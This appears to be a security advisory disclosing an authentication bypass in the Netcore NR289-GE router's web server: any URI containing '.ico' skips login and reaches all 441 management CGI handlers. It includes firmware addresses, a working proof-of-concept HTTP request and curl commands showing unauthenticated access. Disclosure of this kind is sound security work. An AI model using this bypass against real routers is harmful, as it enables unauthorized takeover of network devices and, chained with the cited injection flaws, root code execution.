





# Netcore NR289-GE AC Router — Authentication Bypass in Custom boa (`strstr(uri, ".ico")`)

- Vendor: Netcore (磊科)
- Product: Netcore NR289-GE (SMB router / AC controller)
- Firmware Version: V1.4.5102 (2018.06.14, Linux 2.6.36, MIPS32r2 big-endian / RTL8198C+RTL8370)
- Vulnerability Type: Authentication Bypass (CWE-287 / CWE-425)

## Overview

The NR289-GE web management interface is served by a vendor-patched `boa` (`/bin/boa`, started as `/bin/boa -p /web -f /var/boa.conf` by `/bin/switch`). All `*.cgi` requests are internally forwarded to a single management CGI (`/web/cgi-bin/cgitest.cgi`, 441 dispatch handlers). boa protects the interface with HTTP Basic authentication, but its built-in no-auth whitelist contains a fatal flaw:

**Any request whose URI contains the substring `.ico` is treated as whitelisted and skips Basic authentication entirely.**

Because the CGI determination only depends on the URI extension (`.cgi`) and not on file existence, a request such as:

`POST /x.ico/location_time.cgi`

reaches the management handler `location_time_cgi` with **no credentials**. The bypass applies to the entire handler table, including all administrative `*_set.cgi` operations (the CGI-side permission gate is short-circuited for whitelisted requests, see below).

## Vulnerability Details

### 1. Whitelist check (boa @ `0x407408`)

boa keeps a whitelist table in `.rodata @ 0x410618` (18 entries; flag 0 = prefix match, flag 1 = exact match), covering portal/static resources (`/portal/`, `/images/`, `/css/`, `/script/`, `/net_auth.htm`, `/router/l7_web_auth.cgi`, ...). Immediately after the table walk, boa performs:


```
0x407438:  strstr(uri, ".ico") != NULL  ->  request marked whitelisted
```

The check runs **after** URL-decoding and query stripping (`0x40aa20`), but `.ico` anywhere in the decoded path matches.

At the dispatch site (`process_request @ 0x4074e0`):	



```
0x4076d4:  if whitelisted -> req->CUR_CHECK_NEED = 2, jump to method dispatch
           (Basic authentication is completely skipped)
```

### 2. CGI forwarding (boa `init_cgi` @ `0x40308c`)

Any URI ending in `.cgi` is classified as CGI by extension (`get_mime_type @ 0x404f54`); boa then forks and:



```
0x403388:  execve("/web/cgi-bin/cgitest.cgi", argv = { requested_URI, ... }, envp)
           envp += CUR_USER_PERM / CUR_CHECK_NEED (=2 for whitelisted) / CUR_USER_NAME
```

### 3. CGI-side permission gate is bypassed (cgitest.cgi @ `0x4372f8`)

`cgitest.cgi` dispatches by `basename(argv[0])` over a static table (`.data @ 0x5079a0`, 441 entries `{name, handler, perm}`; 253 entries perm=255, 188 entries perm=1). The permission gate loads `CUR_CHECK_NEED` first:



```
if (CUR_CHECK_NEED == 2)        // whitelisted by boa
    allow handler unconditionally;   // perm bit test skipped
else
    allow only if (handler_perm >> (CUR_USER_PERM - 1)) & 1;
```

Since the `.ico` trick forces `CUR_CHECK_NEED = 2`, **every one of the 441 handlers is reachable without authentication**, including WAN/LAN configuration (`wan_config_set.cgi`), firewall, logging, user management and the command-injection sinks documented in the companion advisories.

## Proof of Concept

Unauthenticated request to a management handler (no `Authorization` header at all):

```http
POST /x.ico/ap_list_show.cgi HTTP/1.1
Host: <target>
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

noneed=noneed
```

Response (handler executed):

```http
HTTP/1.1 200 OK
...

1
```

Control request without the `.ico` substring is rejected:

```http
POST /ap_list_show.cgi HTTP/1.1
...
->  HTTP/1.1 401 Unauthorized
    WWW-Authenticate: Basic realm="netcore"
```

## Impact

Unauthenticated remote attackers gain full access to the device management interface (all 441 CGI handlers), leading to configuration tampering, information disclosure and — combined with the command injection sinks in `location_time.cgi` / `ap_ip.cgi` (see companion advisories) — remote code execution as root.

## Reproduction Result

Dynamically verified against the firmware emulated with qemu-mips (big-endian) + chroot; `/bin/boa` running with the vendor-generated configuration (`Port 80 / ServerName netcore / AddType application/x-httpd-cgi cgi`):



```
$ curl -X POST http://<target>/x.ico/ap_list_show.cgi -d "noneed=noneed"   # no credentials
1

$ curl -X POST http://<target>/ap_list_show.cgi -d "noneed=noneed"
401 Unauthorized
```
